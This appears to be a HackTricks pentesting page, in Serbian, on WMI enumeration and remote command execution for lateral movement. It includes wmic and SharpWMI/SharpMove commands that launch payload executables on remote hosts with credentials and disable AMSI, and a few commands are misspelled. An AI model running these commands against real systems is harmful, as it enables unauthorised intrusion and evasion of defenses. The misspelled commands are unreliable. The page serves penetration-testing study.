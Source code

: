 # WmiExec

{{#include ../../banners/hacktricks-training.md}}

## Kako to funkcioniše

Procesi se mogu otvoriti na hostovima gde su korisničko ime i ili lozinka ili hash poznati putem WMI. Komande se izvršavaju koristeći WMI putem Wmiexec, pružajući polu-interaktivno iskustvo ljuske.

**dcomexec.py:** Korišćenjem različitih DCOM krajnjih tačaka, ovaj skript nudi polu-interaktivnu ljusku sličnu wmiexec.py, posebno koristeći ShellBrowserWindow DCOM objekat. Trenutno podržava MMC20. Application, Shell Windows i Shell Browser Window objekti. (izvor: [Hacking Articles](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/))

## WMI Osnovi

### Namespace

Strukturiran u hijerarhiji nalik direktorijumu, WMI-jev kontejner na vrhu je \root, pod kojim su organizovani dodatni direktorijumi, poznati kao namespaces.
Komande za listanje namespaces:
```bash
# Retrieval of Root namespaces
gwmi -namespace "root" -Class "__Namespace" | Select Name

# Enumeration of all namespaces (administrator privileges may be required)
Get-WmiObject -Class "__Namespace" -Namespace "Root" -List -Recurse 2> $null | select __Namespace | sort __Namespace

# Listing of namespaces within "root\cimv2"
Get-WmiObject -Class "__Namespace" -Namespace "root\cimv2" -List -Recurse 2> $null | select __Namespace | sort __Namespace
```
Klase unutar imenskog prostora mogu se navesti koristeći:
```bash
gwmwi -List -Recurse # Defaults to "root\cimv2" if no namespace specified
gwmi -Namespace "root/microsoft" -List -Recurse
```
### **Klase**

Poznavanje imena WMI klase, kao što je win32_process, i imena prostora u kojem se nalazi je ključno za svaku WMI operaciju.  
Komande za listanje klasa koje počinju sa `win32`:
```bash
Get-WmiObject -Recurse -List -class win32* | more # Defaults to "root\cimv2"
gwmi -Namespace "root/microsoft" -List -Recurse -Class "MSFT_MpComput*"
```
Pozivanje klase:
```bash
# Defaults to "root/cimv2" when namespace isn't specified
Get-WmiObject -Class win32_share
Get-WmiObject -Namespace "root/microsoft/windows/defender" -Class MSFT_MpComputerStatus
```
### Методи

Методи, који су једна или више извршних функција WMI класа, могу се извршити.
```bash
# Class loading, method listing, and execution
$c = [wmiclass]"win32_share"
$c.methods
# To create a share: $c.Create("c:\share\path","name",0,$null,"My Description")
```

```bash
# Method listing and invocation
Invoke-WmiMethod -Class win32_share -Name Create -ArgumentList @($null, "Description", $null, "Name", $null, "c:\share\path",0)
```
## WMI Enumaracija

### Status WMI Usluge

Komande za proveru da li je WMI usluga operativna:
```bash
# WMI service status check
Get-Service Winmgmt

# Via CMD
net start | findstr "Instrumentation"
```
### Informacije o sistemu i procesima

Prikupljanje informacija o sistemu i procesima putem WMI:
```bash
Get-WmiObject -ClassName win32_operatingsystem | select * | more
Get-WmiObject win32_process | Select Name, Processid
```
Za napadače, WMI je moćan alat za enumeraciju osetljivih podataka o sistemima ili domenima.
```bash
wmic computerystem list full /format:list
wmic process list /format:list
wmic ntdomain list /format:list
wmic useraccount list /format:list
wmic group list /format:list
wmic sysaccount list /format:list
```
Daljinsko upitovanje WMI za specifične informacije, kao što su lokalni administratori ili prijavljeni korisnici, je izvodljivo uz pažljivo konstruisanje komandi.

### **Ručno daljinsko WMI upitovanje**

Diskretno identifikovanje lokalnih administratora na udaljenoj mašini i prijavljenih korisnika može se postići kroz specifične WMI upite. `wmic` takođe podržava čitanje iz tekstualne datoteke za izvršavanje komandi na više čvorova istovremeno.

Da bi se daljinski izvršila proces preko WMI, kao što je implementacija Empire agenta, koristi se sledeća struktura komande, pri čemu uspešno izvršenje označava povratna vrednost "0":
```bash
wmic /node:hostname /user:user path win32_process call create "empire launcher string here"
```
Ovaj proces ilustruje WMI-ovu sposobnost za daljinsko izvršavanje i enumeraciju sistema, ističući njenu korisnost kako za administraciju sistema, tako i za pentesting.

## Automatski alati

- [**SharpLateral**](https://github.com/mertdas/SharpLateral):
```bash
SharpLateral redwmi HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe
```
- [**SharpWMI**](https://github.com/GhostPack/SharpWMI)
```bash
SharpWMI.exe action=exec [computername=HOST[,HOST2,...]] command=""C:\\temp\\process.exe [args]"" [amsi=disable] [result=true]
# Stealthier execution with VBS
SharpWMI.exe action=executevbs [computername=HOST[,HOST2,...]] [script-specification] [eventname=blah] [amsi=disable] [time-specs]
```
- [**https://github.com/0xthirteen/SharpMove**](https://github.com/0xthirteen/SharpMove):
```bash
SharpMove.exe action=query computername=remote.host.local query="select * from win32_process" username=domain\user password=password
SharpMove.exe action=create computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true username=domain\user password=password
SharpMove.exe action=executevbs computername=remote.host.local eventname=Debug amsi=true username=domain\\user password=password
```
- Takođe možete koristiti **Impacketov `wmiexec`**.


## Reference

- [https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)


{{#include ../../banners/hacktricks-training.md}}
